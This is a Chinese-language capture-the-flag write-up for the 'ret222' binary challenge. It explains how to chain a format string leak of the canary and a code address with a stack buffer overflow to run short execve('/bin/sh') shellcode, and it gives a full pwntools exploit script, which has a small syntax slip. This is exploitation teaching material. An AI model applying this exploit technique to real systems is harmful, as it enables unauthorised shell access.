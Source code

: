 ## ret222
本題source code中可以明顯看到兩個弱點，一個是format string vulnerability，一個是stack buffer overflow，但本題的binary開啟了ALSR、PIE、NX、Full RELRO，且沒有提供libc，因此不能使用return2libc，binary內也沒有足夠的gadget能組成ROP chain。

題目很明顯的將`name & 0xFFF`開始0x1000 bytes的空間設為`PROT_EXEC | PROT_WRITE | PROT_READ`，因此可能要將shellcode放置在name中，但是name的大小只有16bytes，所以可能可以搭配一些ROP gadget來減少shellcode需要的大小。

接著問題就是要如何leak出name的位址，而PIE/ASLR設計上的弱點是.bss和.text的相對位址是固定的，因此可以先用format string leak出stack上`__libc_csu_init`的位址，以及canary的值，接著從`__libc_csu_init`算出name的位址。

shellcode的部份，我們可以藉由先將`'/bin/sh\x00'`放在payload中一併寫到stack，我們就可以將shellcode減少到16byte以內。

因此最後的流程是
1. 先將format string設定成包含要leak的位址的字串
2. 以printf leak出stack上`__libc_csu_init`的位址以及canary
3. 送出canary + &name + `'/bin/sh\x00'`的payload

```python
#!/usr/bin/env python
from pwn import *

context(arch='amd64')=

r = remote('csie.ctf.tw', 10122)

# 1. leak canary and __libc_csu_init
r.sendline('1')
r.sendline('%23$llx %24$llx')
r.sendline('2')
r.recvuntil('Name:')

canary, libc_csu_init = map(lambda addr: int(addr, 16),
                            r.recvuntil('*', drop=True).split())

# 2. compute name and generate then send the ROP payload
b = ELF('ret222')
name = libc_csu_init + (b.symbols[b'name'] - b.symbols[b'__libc_csu_init'])
payload = cyclic(136).encode()
payload += p64(canary)
payload += cyclic(8).encode()
payload += p64(name)
payload += p64(int.from_bytes(b'/bin/sh\x00', byteorder='little'))
r.sendline('3')
r.sendline(payload)

# 3. fill name with shellcode, then return to name
sc = """
    /* call execve('rsp', 0, 0) */
    xor rsi, rsi
    push (SYS_execve) /* 0x3b */
    pop rax
    mov rdi, rsp
    cdq /* rdx=0 */
    syscall
"""
r.sendline('1')
r.sendline(asm(sc))

r.sendline('4')
r.interactive()
```
